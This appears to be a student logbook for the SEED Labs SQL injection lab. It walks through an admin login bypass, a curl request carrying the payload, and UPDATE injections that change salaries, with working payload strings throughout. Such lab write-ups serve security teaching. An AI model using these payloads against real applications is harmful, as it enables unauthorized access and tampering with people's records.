








# LogBook8_9

## SEED Labs – SQL Injection Attack Lab

### Task 1

To print all the profile information of Alice, we ran the following SQL code:
```sql
SELECT * FROM credential WHERE name='Alice';
```
The image below shows what was returned:


### Task 2

#### 2.1

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```
Since we have an insight of the SQL code, we can insert in the username input box `' OR name='admin'#`.

This results in a query like this:

```php
<?php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= '' OR name='admin'";# and Password='$hashed_pwd'";
?>
```

This will close the name variable which will be `''` and add an `OR` operator with with the name as the person we want to personate (admin). The `#` symbol is here so that we can comment all sql code in front of our code, namely the password variable, which will not matter considering it is commented.  

Since we are already inside the name input, we could've also simply give it's name and comment the remaining code: `admin';#`.

This results in a query like this:

```php
<?php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name='admin'";# and Password='$hashed_pwd'";
?>
```




#### 2.2

Applying the same logic as in Task 2.1, but using the command line instead of utilizing in the web browser, we ran the following code:
```sh
curl ’www.seed-server.com/unsafe_home.php?username=%27%20OR%20name=%27admin%27%23&Password=’
```




#### 2.3
Looking at the source code, we discovered that mysqli plugin was being used.

```php
<?php
$conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
?>
```

From the documentation: `MySQL optionally allows having multiple statements in one statement string, but it requires special handling.Multiple statements or multi queries must be executed with mysqli::multi_query().`

Since we cannot use multiple queries with `mysqli::query()`, these types of attack cannot be done.

### Task 3

#### 3.1

After accessing Alice's profile and with the knowledge that column salary is in the same table as the other attributes from the the credential's table, we can write on a random input box (e.g. nickname) `', salary='999999`.

This results in the following:
```php
<?php
$sql = "UPDATE credential SET
        nickname='', salary='999999',
        email='$input_email',
        address='$input_address',
        Password='$hashed_pwd',
        PhoneNumber='$input_phonenumber'
        WHERE ID=$id;";
?>
```





#### 3.2

Using the same logic as above, we wrote on a random input box `',salary=1 WHERE name='Boby';#`. 
This will result in the following:

```php
<?php
$sql = "UPDATE credential SET nickname='', salary='1' WHERE name='Boby'";# , email='$input_email', address='$input_address',Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
?>
```




